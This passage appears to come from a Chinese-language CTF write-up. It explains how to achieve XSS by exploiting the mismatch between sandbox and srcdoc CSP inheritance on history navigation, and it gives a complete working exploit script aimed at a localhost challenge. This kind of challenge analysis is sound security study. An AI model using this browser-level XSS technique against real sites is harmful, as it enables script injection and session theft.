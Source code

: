 原本 CSP 是空的，但因為 sandbox 不見了，所以現在又回來了。

但是呢，最後也是最重要的一點，前面提過的：「srcdoc 的 CSP 會繼承上次的結果」，因此這個 srcdoc 的 CSP 與當前頁面無關，而是繼承上次的，而上次的 CSP 是什麼？是空的，因此 script 就可以執行了，順利達成 XSS。

把題目的 opener 檢查拿掉之後，exploit 會簡單很多，比較好理解：

``` html
<script>
  const challengeHost = 'http://localhost:1337'

  const xssPayload = `<script>alert(document.domain)<\/script>`
  const payload = `<iframe sandbox="allow-same-origin" src="/memo?memo=${xssPayload}">`
  const win = window.open(`${challengeHost}/memo?memo=` + payload)

  setTimeout(() => {
    const win2 = window.open(`${challengeHost}/memo?memo=<iframe></iframe>`)
    setTimeout(() => {
      win2.close()
      win.location = URL.createObjectURL(new Blob([`
        <script>
          setTimeout(() => {
           history.back();
          }, 500);
        <\/script>
      `], { type: "text/html" }));
    }, 1000)
  }, 1000)
</script>
```

以上就是這題的解法，主要是靠著回到上一頁時，載入 sandbox 與 CSP 兩者的來源不同，藉此創造出差異，達成 XSS。

## 總結

根據作者的說法，這一題的靈感來源是這個 issue：[srcdoc and sandbox interaction with session history #6809](https://github.com/whatwg/html/issues/6809)，而寫這篇的時候我也是看了這個 issue 好幾遍，自己做實驗很多次，才終於搞懂箇中奧妙，重點是看完之後要自己動手試試看，多試幾次大概就會知道是怎麼一回事了。

話說這個 issue 的作者 Jake Archibald，就是 [HTTP 203](https://www.youtube.com/playlist?list=PLNYkxOF6rcIAKIQFsNbV0JDws_G_bnNo9) 的主持人，這個節目對前端工程師來說應該不陌生，會講到很多與 Web 相關的議題，而有篇前端工程師的必讀經典之一：[Tasks, microtasks, queues and schedules](https://jakearchibald.com/2015/tasks-microtasks-queues-and-schedules/) 也是他寫的。

